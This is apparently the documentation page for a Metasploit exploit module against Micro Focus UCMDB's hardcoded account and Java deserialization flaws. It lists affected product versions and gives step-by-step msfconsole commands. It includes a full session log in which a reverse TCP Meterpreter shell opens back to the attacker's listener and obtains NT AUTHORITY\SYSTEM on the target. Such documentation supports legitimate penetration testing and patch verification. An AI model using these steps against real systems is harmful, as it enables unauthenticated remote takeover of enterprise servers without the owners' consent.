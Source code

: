 ## Vulnerable Application

UCMDB is the vulnerable component, which is integrated into many Micro Focus products. MF have confirmed that the
following are affected by the hardcoded account vulnerability:

* Operation Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older
  versions
* Application Performance Management versions: 9.51, 9.50 and 9.40 with uCMDB 10.33 CUP 3
* Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11

An additional number of applications are vulnerable to the Java deserialization. Note that this module leverages both
vulnerabilities, so it should only work in the above.

Installation docs are available at:

* https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.

Both Linux and Windows installations are affected.

All details about these vulnerabilities can be obtained from the advisory:

* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/multi/http/microfocus_ucmdb_unauth_deser`
4. `set rhost TARGET'
5. `set lhost YOUR_IP`
6. `set target 0|1`
7. `run`
8. You should get a shell.

## Scenarios

```
msf6 > use exploit/multi/http/microfocus_ucmdb_unauth_deser
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/microfocus_ucmdb_unauth_deser) > set rhost 10.0.0.100
rhost => 10.0.0.100
msf6 exploit(multi/http/microfocus_ucmdb_unauth_deser) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf6 exploit(multi/http/microfocus_ucmdb_unauth_deser) > check
[+] 10.0.0.100:8443 - The target is vulnerable.
msf6 exploit(multi/http/microfocus_ucmdb_unauth_deser) > run

[*] Started reverse TCP handler on 10.0.0.1:4444
[*] 10.0.0.100:8443 - Attacking Windows target
[+] 10.0.0.100:8443 - Succesfully authenticated and obtained our cookie!
[*] 10.0.0.100:8443 - Sending payload to /services/DataAcquisitionService
[+] 10.0.0.100:8443 - Success, shell incoming!
[*] Sending stage (175174 bytes) to 10.0.0.100
[*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.0.0.100:50733) at 2021-01-24 22:16:36 +0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 15244 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\HPBSM\ucmdb\bin>whoami
whoami
nt authority\system

C:\HPBSM\ucmdb\bin>
```
